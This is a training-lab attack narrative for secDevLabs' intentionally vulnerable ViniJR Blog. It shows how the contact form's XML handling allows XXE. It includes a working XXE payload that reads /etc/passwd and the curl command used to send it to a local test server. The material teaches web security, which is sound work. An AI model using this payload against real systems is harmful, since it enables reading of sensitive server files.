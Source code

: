 # Attack Narrative - ViniJR Blog (XXE)

The main goal of this documentation is to describe how a malicious user could exploit a XXE vulnerability intentionally installed on ViniJR Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a4/vinijr-blog) yet, you should check them before reading this narrative.

----

## 👀

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users send messages to the server, as shown in the following picture:

<img src="attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being build using an XML:

<img src="attack-2.png" align="center"/>


To replicate this POST using [curl](https://curl.haxx.se/), create the following file `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

```sh
curl -d @payload.xml localhost:10080/contact.php ; echo
```

By checking the source code of the [file](../app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="attack-3.png" align="center"/>

## 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.xml` to perform a XXE:

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app:

```sh
curl -d @evilxml.xml localhost:10080/contact.php ; echo
```

<img src="attack-4.png" align="center"/>
